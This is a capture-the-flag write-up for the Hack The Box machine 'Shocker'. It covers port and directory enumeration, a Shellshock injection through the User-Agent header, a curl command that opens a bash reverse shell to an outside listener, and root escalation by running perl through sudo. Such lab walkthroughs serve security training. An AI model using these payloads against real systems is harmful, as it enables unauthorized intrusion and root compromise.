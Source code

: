 # Shocker

![image](https://user-images.githubusercontent.com/10210108/79377933-77979c00-7f2a-11ea-8b23-43eefc2f2249.png)

## Overview

Shocker is an Ubuntu box that is vulnerable to the [Shellshock](https://en.wikipedia.org/wiki/Shellshock_(software_bug)) vulnerablility. ShockShock alows for environment variables that specify a function definition to be arbitrarily defined within bash. Bash continues to process shell commands after the function definition which allows for abuse in the form of code injection. By exploiting this vulnerability I was able to embed a bash command in the "User Agent" http header to create a reverse shell which provided initial foothold as user shelly. Shelly was able to run sudo without password for perl which was used to spawn a shell as root.

## Enumeration

**Software**

* Ubuntu 16.04.3 LTS
* Apache 2.4.18
* Sudo 1.8.16-0ubuntu1.5

**Port Scan**

```
nmap -vv -Pn -sT -A -p- 10.10.10.56 -oN /mnt/data/boxes/shocker/_full_tcp_nmap.txt
```

* 80/tcp - http
* 2222/tcp - ssh

**gobuster**

```
gobuster dir -u http://10.10.10.56 -w ~/tools/SecLists/Discovery/Web-Content/common.txt -t 40
```

* /.hta (Status: 403)
* /.htpasswd (Status: 403)
* /.htaccess (Status: 403)
* /cgi-bin/ (Status: 403)
* /index.html (Status: 200)
* /server-status (Status: 403)


```
gobuster dir -u http://10.10.10.56/cgi-bin/ -w ~/tools/SecLists/Discovery/Web-Content/common.txt -t 40 -x sh
```

* /.htpasswd (Status: 403)
* /.htpasswd.sh (Status: 403)
* /.hta (Status: 403)
* /.hta.sh (Status: 403)
* /.htaccess (Status: 403)
* /.htaccess.sh (Status: 403)
* /user.sh (Status: 200)


## Steps (user)

Some background: There was quite a bit of trial and error involved in the enumeration phase on this box. The normal wordlists I use were not finding anything (directory-list-2.3-small/medium.txt) so I tried some different ones found on [SecLists](https://github.com/danielmiessler/SecLists). Once I found cgi-bin/ I ran a scan again with gobuster, looking for shell files and finally found user.sh.

I browsed to http://10.10.10.56 and was brought to a page containing an image of a bug with the caption "don't bug me".

![image](https://user-images.githubusercontent.com/10210108/83983663-4f129980-a8fe-11ea-91c6-d15936f8d44b.png)

Looking at the gobuster results from earlier, I browsed to http://10.10.10.56/cgi-bin/user.sh and opened the script to take a look and confirmed it was definitely executing bash comands.

![image](https://user-images.githubusercontent.com/10210108/84602974-f8a2df00-ae58-11ea-81f3-d5b34c8f3ff3.png)

Considering the box name was "Shocker", I tested to see if it was vulnerable to ShellShock by having the target execute a command to ping my box.

I set up tcpdump to listen for icmp only on tun0 (tcpdump -i tun0 icmp) and ran the curl command with function definition followed by the ping command

```
curl -H "User-Agent: () { :; }; /bin/ping -c 1 10.10.14.23 " http://10.10.10.56/cgi-bin/user.sh
```

I received a ping from the target.

![image](https://user-images.githubusercontent.com/10210108/83984229-0fe64780-a902-11ea-83a0-62859458a03c.png)

Now that I knew I could execute commands I set up a netcat listener (nc -lvnp 4200) and added a reverse shell to the curl command. Once run I received a callback and shell as user shelly.

```
curl -H "User-Agent: () { :; }; /bin/bash -i >& /dev/tcp/10.10.14.12/4200 0>&1" http://10.10.10.56/cgi-bin/user.sh
```

![image](https://user-images.githubusercontent.com/10210108/83984262-47ed8a80-a902-11ea-8470-389f7d1311eb.png)


## Steps (root/system)


One of the first things I do is run sudo -l which lists the allowed commands for the user. The output of this command showed that user Shelly could run perl as root with no password

> [sudo](https://linux.die.net/man/8/sudo) allows a permitted user to execute a command as the superuser or another user, as specified by the security policy.

![image](https://user-images.githubusercontent.com/10210108/83984281-5b005a80-a902-11ea-8406-0c0e0c0e886f.png)

Searching GTFOBins for perl I found a command that could be used to spawn a shell. Running the command with sudo gave me shell as root.

> [GTFOBins](https://gtfobins.github.io/) is a curated list of Unix binaries that can be exploited by an attacker to bypass local security restrictions

```
sudo perl -e 'exec "/bin/sh";'
```

![image](https://user-images.githubusercontent.com/10210108/83984312-86834500-a902-11ea-8b6c-cfca1174805e.png)

